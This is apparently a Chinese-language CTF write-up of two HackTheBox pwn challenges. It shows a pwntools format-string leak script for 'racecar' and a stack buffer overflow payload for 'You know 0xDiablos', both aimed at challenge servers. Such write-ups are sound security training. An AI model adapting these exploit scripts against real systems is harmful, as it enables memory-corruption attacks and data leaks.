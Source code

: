 ```yaml
---
layout: post
title: "hackbox wp"
date:   2022-3-10
tags: [ctf_wp]
comments: true
author: wsxk
---
```



- [racecar](#racecar)
  - [1.运行](#1运行)
  - [2.分析程序](#2分析程序)
  - [3.exp编写](#3exp编写)
- [You know 0xDiablos](#you-know-0xdiablos)

## racecar<br>
### 1.运行
拿到文件，当然是先让他跑起来看看会发生什么

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/1.png)

看起来是跑车小游戏

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/2.png)

显然选项2才正常开始游戏

接下来让你选择车型，赛道

当我选完1车型 2赛道后，出现了奇怪的东西

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/3.png)

打不开flag.txt

有点意思，这时候我们可以创建一个flag.txt然后往里面输点东西

之后出现的情况是下面这样的

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/4.png)

### 2.分析程序

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/5.png)

哦吼，看到了printf函数的格式化字符串漏洞

稍微调试一下

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/6.png)

然后看下格式化字符串出现的东西

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/7.png)


第11个就是我们输入的flag的4个字节啦

### 3.exp编写
编写exp有些值得质疑的点，比如收到的%x-%x...形式的字符串
需要去首尾空格，然后看看分片

用binascii库的 a2b_hex时，顺序的反的，需要倒过来



    from pwn import *
    from binascii import a2b_hex

    #io = process("./racecar")
    io = remote("178.128.168.198",30254)

    io.recvuntil("Name:")
    io.sendline("wsxk")
    io.recvuntil("Nickname:")
    io.sendline("wsxk")

    io.recvuntil("Car selection")
    io.sendline(str(2))
    io.recvuntil("Select car:")
    io.sendline(str(1))

    io.recvuntil("Select race:")
    io.sendline(str(2))

    io.recvuntil("Do you have anything to say to the press after your big victory?")
    io.sendline("%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x")

    io.recvuntil("The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this:")
    io.recvline()
    return_strings=io.recvline()
    #print(return_strings)

    flag = (bytes(return_strings).strip()).rsplit(b"-")
    print(flag)
    true_flag = b""
    for i in range(11,len(flag)):
        if len(flag[i])%2:
            flag[i] = b'0'+flag[i]
        #print(a2b_hex(flag[i])[::-1])
        true_flag += a2b_hex(flag[i])[::-1]
        if b"}" in true_flag:
            break
    print(true_flag)

## You know 0xDiablos<br>
太简单了以至于不想说乍做.....<br>

    from pwn import *

    io = remote("167.172.60.97",31012)
    #io = process("./vuln")
    #80491E2
    io.recvuntil("You know who are 0xDiablos:")
    payload = b'a'*188 + p32(0x80491E2)+p32(0xDEADBEEF)+p32(0xDEADBEEF)+p32(0xC0DED00D)

    #gdb.attach(io)
    io.sendline(payload)

    io.interactive()